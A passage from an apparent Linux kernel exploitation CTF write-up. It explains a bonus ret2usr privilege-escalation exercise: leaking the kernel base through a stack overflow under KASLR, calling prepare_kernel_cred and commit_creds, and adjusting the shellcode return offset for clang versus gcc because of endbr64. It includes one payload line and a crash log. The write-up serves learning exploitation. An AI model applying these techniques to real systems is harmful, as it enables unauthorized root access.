When SMAP, SMEP, KPTI is disabled and KASLR is enabled, use Stack Overflow vulnerabilities only (i.e., not using read) to escalate privileges.
Tip: Check the register value at the moment you run the shellcode with ret2usr.
```

So at the time we use `module_read` to read the buffer in kstack to our buffer, the value at `rbp` when we about to return in still the kernel's



So just take the value at `rbp+0x8` and then calculate the base address of the kernel, we can get the address of `prepare_kernel_cred` and `commit_creds` functions. And the other stuff is the same as `ret2usr` exploit. So [here](./bonus/exploit_question3.c) is my exploit code for this question. But one trouble when I compile my exploit code with `clang` is

```sh
BUG: unable to handle page fault for address: fffffffffff30e7d
#PF: supervisor instruction fetch in kernel mode
#PF: error_code(0x0010) - not-present page
```

But `gcc` works fine. This is because we pass a wrong address of the shellcode in the `saved RIP`.

- This is for `clang`:



- This is for `gcc`:



As we can see there are 2 different addresses of the shellcode, although we use the same code `*(uint64_t *)&buf[0x408] = (uint64_t)&shellcode + 8;`. Is this because my code is so bad? No, this is because the `clang` compiler isn't add the `endbr64` instruction at the start of each function, in `clang` this is an option that you can enable by using `-fcf-protection=branch`. However, in `gcc`, this is enabled by default. So that if you use `clang` to compile your exploit code, just change to `+4` instead of `+8` in the line `*(uint64_t *)&buf[0x408] = (uint64_t)&shellcode + 4;` to make it work. Or just use the option `-fcf-protection=branch`

If you curious about the `endbr64` instruction, you can read more about it [here](https://stackoverflow.com/questions/56905811/what-does-the-endbr64-instruction-actually-do).

## References

- https://www.felixcloutier.com/x86/iret:iretd:iretq
- https://www.felixcloutier.com/x86/sysret
- https://blog.wohin.me/posts/linux-kernel-pwn-01/
- https://0x434b.dev/dabbling-with-linux-kernel-exploitation-ctf-challenges-to-learn-the-ROPes/
- https://breaking-bits.gitbook.io/breaking-bits/exploit-development/linux-kernel-exploit-development
- https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2
